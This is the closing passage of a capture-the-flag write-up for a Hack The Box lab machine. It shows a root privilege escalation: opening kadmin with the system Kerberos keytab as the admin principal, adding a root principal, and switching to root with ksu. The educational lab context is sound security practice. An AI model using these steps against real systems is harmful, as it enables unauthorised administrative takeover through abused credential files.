 
Let's open the kadmin console 

```
kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```

then  add the root as a principal to the database

> https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-admin/Adding-or-Modifying-Principals.html

```
add_principal root@REALCORP.HTB
```

<img src="rootad.png">

Now we can get login as root with `ksu`

> https://linux.die.net/man/1/ksu

<img src="root.png">



And we rooted the box!



## Thanks for reading hope you enjoyed it!


